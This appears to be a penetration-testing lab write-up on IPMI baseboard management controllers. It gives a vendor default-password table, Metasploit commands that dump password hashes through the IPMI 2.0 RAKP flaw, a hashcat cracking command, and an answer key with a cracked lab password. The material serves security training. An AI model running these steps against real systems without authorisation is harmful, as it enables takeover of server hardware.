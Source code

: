 # IPMI (port )
Intelligent Platform Management Interface (IPMI) is a set of standardized specifications for hardware-based host management systems used for system management and monitoring. It operates using a direct network connection to the system's hardware and does not require access to the operating system via a login shell.

IPMI is typically used in three ways:
- Before the OS has booted to modify BIOS settings
- When the host is fully powered down
- Access to a host after a system failure

## Footprinting
IPMI communicates over port 623 UDP. Systems that use the IPMI protocol are called Baseboard Management Controllers (BMCs). If we can access a BMC during an assessment, we would gain full access to the host motherboard and be able to monitor, reboot, power off, or even reinstall the host operating system. Gaining access to a BMC is nearly equivalent to physical access to a system. Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol.
### Metasploit Version Scan
```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

During internal penetration tests, we often find BMCs where the administrators have not changed the default password.
|Product|Username|Password|
|-|-|-|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|

## Dangerous Settings
If default credentials do not work to access a BMC, we can turn to a flaw in the RAKP protocol in IPMI 2.0. **During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place**. This can be leveraged to obtain the password hash for ANY valid user account on the BMC. These password hashes can then be cracked offline using a dictionary attack using Hashcat mode 7300. In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command :
```
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```
which tries all combinations of upper case letters and numbers for an eight-character password.

To retrieve IPMI hashes, we can use the Metasploit IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval module.
### Metasploit Dumping Hashes
```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Questions
1. What username is configured for accessing the host via IPMI? **Answer: admin**
   - `$ msfconsole`
   - `msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes`
   - `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS <ip>`
   - `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set SESSION_MAX_ATTEMPTS 10`
   - `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set THREADS 5`
   - `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run` -> Hash found: 
    ```
    [+] 10.129.140.178:623 - IPMI - Hash found: admin:5d759274820600002a7c316906a14b77afd82ae9bca5e39f35c4fcb982e6aadedc13c8f0392c6863a123456789abcdefa123456789abcdef140561646d696e:4900b35ab47014bad6fbbf6fe25ffa6ca6cc0c9c
    [+] 10.129.140.178:623 - IPMI - Hash for user 'admin' matches password 'trinity'
    ```
2. What is the account's cleartext password? **Answer: trinity**
   - Remember to set the wordlist to rockyou.txt: `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set PASS_FILE ~/rockyou.txt`